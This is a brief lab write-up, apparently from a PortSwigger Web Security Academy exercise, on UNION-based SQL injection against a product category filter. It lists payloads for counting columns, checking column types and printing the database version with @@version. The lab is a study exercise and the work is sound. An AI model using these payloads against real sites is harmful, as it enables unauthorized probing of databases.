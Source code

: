 # SQL injection attack, querying the database type and version on MySQL and Microsoft

1. SQLi: product category filter.
2. Goal: display the database version string.

### Analysis
- Website target: `https://0a3d00e004823097806162b90064008f.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. Find number of columns.
```sql
' order by 2#
'-- I found 2 columns.
```

2. Find the data types of the column.
```sql
' union select 'a', 'a'#
'-- This 2 columns of data type is text. 
```

3. Output the version of the database.
```sql
SELECT @@version --Microsoft
' union select @@version, null#
```